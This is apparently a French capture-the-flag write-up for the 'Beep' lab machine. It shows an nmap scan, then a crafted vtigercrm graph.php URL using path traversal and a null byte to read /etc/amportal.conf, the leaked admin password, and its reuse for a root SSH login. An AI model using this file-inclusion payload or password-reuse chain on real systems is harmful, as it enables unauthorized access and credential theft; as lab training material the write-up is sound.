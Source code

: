 # Beep [Linux] Easy

`nmap -sS -A -sC -sV -p- 10.10.10.7`

```bash
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to [https://10.10.10.7/](https://10.10.10.7/)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|*pop3-capabilities: RESP-CODES APOP STLS PIPELINING EXPIRE(NEVER) AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) USER LOGIN-DELAY(0) TOP UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|*  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: CATENATE SORT=MODSEQ UIDPLUS LIST-SUBSCRIBED SORT OK ACL RIGHTS=kxte CONDSTORE STARTTLS QUOTA MULTIAPPEND Completed LISTEXT CHILDREN IDLE UNSELECT BINARY ATOMIC THREAD=REFERENCES NO THREAD=ORDEREDSUBJECT ID X-NETSCAPE ANNOTATEMORE IMAP4rev1 LITERAL+ NAMESPACE MAILBOX-REFERRALS IMAP4 RENAME URLAUTHA0001
|*ssl-date: ERROR: Script execution failed (use -d to debug)
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|*/
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2022-06-01T15:33:50+00:00; 0s from scanner time.
|_http-title: Elastix - Login page
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Version :
- Apache httpd 2.2.3
- Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
- HylaFAX 4.3.10
- Asterisk Call Manager 1.1
- MiniServ 1.570 (Webmin httpd)

Avec tous ça on trouve absolument rien. Mais sur le site Web il y a un client Elastix on peux chercher des exploit dessus un des deux exploit est un LFI il consiste à craft une url :

```bash
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

On peux se permettre de faire nous même notre URL : [https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf&module=Accounts&action](https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action)

On trouve la variable ARI_ADMIN_PASSWORD=`jEhdIekWmdjE` on peux donc se connecter au client en tant que `admin:jEhdIekWmdjE`

Et on peux remarquer une récurrence des mot de passe qui sont utilisé pour plusieurs services `jEhdIekWmdjE` on peux donc essayer ce mot de passe sur la connexion ssh.

Premier problème la clé ssh est très vielle :

![Untitled](Beep%20%5BLinux%5D%20Easy%2026fb15d625164ea69508a47d026a8231/Untitled.png)

On rajoute à notre commande `-oKexAlgorithms=+diffie-hellman-group-exchange-sha1`

La méthode est trop vielle et on à ce retour :

![Untitled](Beep%20%5BLinux%5D%20Easy%2026fb15d625164ea69508a47d026a8231/Untitled%201.png)

On rajoute cette partie `oHostKeyAlgorithms=+ssh-rsa` et nous pouvons nous connecter avec le mot de passe.

Nous apparaissons directement avec les droits root nous pouvons récupérer tous les flag.